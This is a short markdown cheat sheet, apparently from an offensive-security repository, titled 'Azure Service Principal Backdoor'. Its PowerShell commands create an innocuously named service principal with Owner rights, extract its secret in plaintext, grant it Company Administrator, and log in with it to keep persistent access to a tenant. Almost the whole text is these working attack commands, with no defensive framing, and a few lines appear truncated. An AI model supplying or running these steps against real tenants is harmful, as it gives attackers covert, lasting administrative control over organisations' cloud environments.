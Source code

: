 # Azure Service Principal Backdoor

## Tool: Az Powershell Module

### Create a new Azure service principal as a backdoor

    $spn = New-AzAdServicePrincipal -DisplayName "WebService" -Role Owner

    $spn

    $BSTR = ::SecureStringToBSTR($spn.Secret)

    $UnsecureSecret = ::PtrToStringAuto($BSTR)

    $UnsecureSecret

    $sp = Get-MsolServicePrincipal -AppPrincipalId <AppID>

    $role = Get-MsolRole -RoleName "Company Administrator"

    Add-MsolRoleMember -RoleObjectId $role.ObjectId -RoleMemberType ServicePrincipal -RoleMemberObjectId $sp.ObjectId

### Enter the AppID as username and what was returned for $UnsecureSecret as the password in the Get-Credential prompt

    $cred = Get-Credential

    Connect-AzAccount -Credential $cred -Tenant “tenant ID" -ServicePrincipal
